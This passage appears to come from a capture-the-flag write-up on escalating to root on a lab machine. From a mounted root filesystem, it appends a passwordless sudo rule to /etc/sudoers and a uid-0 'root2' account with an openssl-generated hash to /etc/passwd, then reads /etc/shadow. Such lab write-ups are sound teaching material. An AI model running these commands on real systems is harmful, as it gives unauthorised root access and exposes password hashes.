 ### Way \#1: Enable sudo without password <a id="a152"></a>

In the _/etc/sudoers_ \(in the _/mnt/root_ directory\) file add the following line.

```text
echo "ash     ALL=(ALL) NOPASSWD:ALL" >> etc/sudoers
```

This will allow the ash user to run the sudo command without having to enter a password.

We’ll test this out after we complete way \#2.

### Way \#2: Add an entry in the /etc/passwd file <a id="17c9"></a>

The _/etc/passwd_ file historically contained user password hashes. For backwards compatibility, if the second field of a user row in _/etc/passwd_ contains a password hash, it takes precedent over the hash in _/etc/shadow_. Therefore, we can create a new user and assign them the root user ID \(0\) giving the user root privileges.

Now you might be asking, why not just add an entry or crack an existing password in the /etc/shadow file? You can definitely do that. I wanted to use the /etc/passwd file because not many people are familiar with the backward compatibility feature and therefore don’t check if the file has been misconfigured \(world-writeable\) in a way that would allow privilege escalation.

First, generate a password hash for the password “password” using openssl on the attack machine.

```text
rana@kali:~$ openssl passwd "password"
icmqBaqZ.ZbBU
```

Next, add the following entry to the /etc/passwd file.

```text
echo "root2:icmqBaqZ.ZbBU:0:0:root:/root:/bin/bash" >> etc/passwd
```

Now, if we su into root2 with the set password, we should have root privileges.

Let’s test if our privilege escalation techniques were successful.

First, exit the container using the following command.

```text
/mnt/root # exitash@tabby:~$ whoami
ash
```

To test privilege escalation way \#1, try to run the sudo command.

```text
ash@tabby:~$ sudo cat /etc/shadow
root:[redacted]:18429:0:99999:7:::
daemon:*:18375:0:99999:7:::
bin:*:18375:0:99999:7:::
sys:*:18375:0:99999:7:::
sync:*:18375:0:99999:7:::
games:*:18375:0:99999:7:::
man:*:18375:0:99999:7:::
```
